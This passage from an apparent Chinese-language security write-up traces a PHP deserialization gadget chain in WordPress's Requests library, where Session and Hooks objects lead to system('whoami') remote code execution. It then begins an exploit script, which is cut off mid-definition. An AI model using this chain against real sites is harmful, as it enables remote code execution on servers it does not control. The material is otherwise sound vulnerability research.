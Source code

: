 第二次调用 dispatch 方法，通过回调，由于 dispatch 方法只使用了两个参数，因此回调中的后三个参数不会使用，即$data、$type 和$option

```bash
dispatch(&$url, &$headers)
```

此时的$this 对应的是新 Hooks 实例，$hook 参数对应的是$url，而$this->hooks 数组中存在以$url 为键的值，是一个数组，里面第一个元素为 system 字符串

而$parameters 对应的是$header，是一个数组，里面存放 whoami 字符串，从而构成回调方法：system(\["whoami"\])

[![](assets/1707953698-20bd34eac6800bbb23e8ca4db42a9da7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208123133-f068d512-c63a-1.png)

最后成功 RCE

## 尝试编写 EXP

根据实现的整体流程，尝试动手编写 EXP

```bash
<?php
namespace WpOrg\Requests {
    class Session {
        private $url;
        private $headers;
        private $options;

        public function __construct($url, $headers, $options)
        {
            $this->url = $url;
            $this->headers = $headers;
            $this->options = $options;
        }
    }

    class Hooks
    {
        public $hooks;

        public function __construct($hooks)
        {
            $this->hooks = $hooks;
        }
    }
}

namespace {

    use WpOrg\Requests\Hooks;
```